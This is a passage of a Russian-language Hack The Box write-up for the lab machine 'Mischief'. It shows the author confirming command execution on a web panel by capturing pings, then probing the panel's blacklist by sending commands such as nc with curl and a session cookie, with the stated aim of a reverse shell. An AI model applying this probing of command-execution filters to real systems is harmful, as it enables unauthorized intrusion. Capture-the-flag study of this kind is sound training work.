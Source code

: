 [![port80-ipv6-browser-3.png]({{ "/img/htb/boxes/mischief/port80-ipv6-browser-3.png" | relative_url }})]({{ "/img/htb/boxes/mischief/port80-ipv6-browser-3.png" | relative_url }})
{: .center-image}

Что ж, если предлагают, то почему нет? Только вот 127.0.0.1 я, пожалуй, заменю на айпишник своей машины, чтобы убедиться в успешности выполнения команды:

[![port80-ipv6-browser-4.png]({{ "/img/htb/boxes/mischief/port80-ipv6-browser-4.png" | relative_url }})]({{ "/img/htb/boxes/mischief/port80-ipv6-browser-4.png" | relative_url }})
{: .center-image}

```text
root@kali:~# tcpdump -n -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
01:08:50.065483 IP 10.10.10.92 > 10.10.14.11: ICMP echo request, id 1490, seq 1, length 64
01:08:50.065501 IP 10.10.14.11 > 10.10.10.92: ICMP echo reply, id 1490, seq 1, length 64
01:08:51.050468 IP 10.10.10.92 > 10.10.14.11: ICMP echo request, id 1490, seq 2, length 64
01:08:51.050485 IP 10.10.14.11 > 10.10.10.92: ICMP echo reply, id 1490, seq 2, length 64
^C
4 packets captured
4 packets received by filter
0 packets dropped by kernel
```

Есть контакт, экспериментируем дальше.

### Фильтрация команд
Если захочешь внаглую вызвать `nc` для инициализации реверс-подключения, ты разочаруешься:

[![port80-ipv6-browser-5.png]({{ "/img/htb/boxes/mischief/port80-ipv6-browser-5.png" | relative_url }})]({{ "/img/htb/boxes/mischief/port80-ipv6-browser-5.png" | relative_url }})
{: .center-image}

Скорее всего, на машине активен WAF-like механизм, блокирующий выполнение команд, которые содержат слова из черного списка. Разминки ради можно, вооружившись Burp'ом и вытащив кукисы сайта, проверить, какие команды разрешены, а какие нет.

Для этого будем использовать curl следующим образом:
```html
root@kali:~# curl -6 -s -X POST 'http://[dead:beef::250:56ff:feb9:7caa]:80/' -H 'Cookie: PHPSESSID=bppkfmhuiv9kngkmvir3s44vtj' -d 'command=nc'

<!DOCTYPE html>
<html>
<title>Command Execution Panel (Beta)</title>
<head>
        <link rel="stylesheet" type="text/css" href="assets/css/style.css">
        <link href="http://fonts.googleapis.com/css?family=Comfortaa" rel="stylesheet" type="text/css">
</head>
<body>

        <div class="header">
                <a href="/">Command Execution Panel</a>
        </div>


                <br />Welcome administrator
                <br /><br />
                <a href="logout.php">Logout?</a>
                <form action="/" method="post">
                Command: <br>
                <input type="text" name="command" value="ping -c 2 127.0.0.1"><br>
                <input type="submit" value="Execute">
                </form>
                <p>
```

[//]: # (2019-08-20)